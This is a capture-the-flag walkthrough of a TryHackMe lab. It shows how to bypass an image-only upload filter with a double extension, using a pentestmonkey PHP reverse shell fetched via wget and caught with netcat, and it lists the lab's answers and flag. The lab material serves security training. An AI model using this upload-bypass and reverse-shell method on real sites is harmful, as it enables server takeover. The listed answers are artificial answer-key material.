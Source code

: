 ```yaml
---
description: Web Exploitation - GET ; Upload ; Reverse Shell
---
```


# The Elf Strikes Back!

## Video

{% embed url="https://www.youtube.com/watch?v=F\_nTIX-q32k&" %}

## Rooms

[Upload vulns](https://tryhackme.com/room/uploadvulns)

[Intro to Shells](https://tryhackme.com/room/introtoshells)

## Resources

[PHP Reverse Shell](https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php)

## Challenge

Open the site

![](../.gitbook/assets/image%20%2825%29.png)

> You have been assigned an ID number for your audit of the system: **`ODIzODI5MTNiYmYw`**
>
> http://10.10.236.79/?id=ODIzODI5MTNiYmYw

![](../.gitbook/assets/image%20%2864%29.png)

What string of text needs adding to the URL to get access to the upload page?

{% hint style="success" %}
?id=ODIzODI5MTNiYmYw
{% endhint %}

![](../.gitbook/assets/image%20%2843%29.png)

What type of file is accepted by the site?

{% hint style="success" %}
Image
{% endhint %}

Bypass the filter and upload a reverse shell.

```text
wget https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php

mv php-reverse-shell.php image.jpeg.php
```

Change the following parameters in the file

![](../.gitbook/assets/image%20%2862%29.png)

![](../.gitbook/assets/image%20%2873%29.png)

Tried /uploads, /images, /media, /resources

![](../.gitbook/assets/image%20%2849%29.png)

In which directory are the uploaded files stored?

{% hint style="success" %}
/uploads/
{% endhint %}

![](../.gitbook/assets/image%20%2831%29.png)

Activate your reverse shell and catch it in a netcat listener!

{% hint style="success" %}
No answer needed
{% endhint %}

![](../.gitbook/assets/image%20%2845%29.png)

What is the flag in /var/www/flag.txt?

{% hint style="success" %}
THM{MGU3Y2UyMGUwNjExYTY4NTAxOWJhMzhh}
{% endhint %}

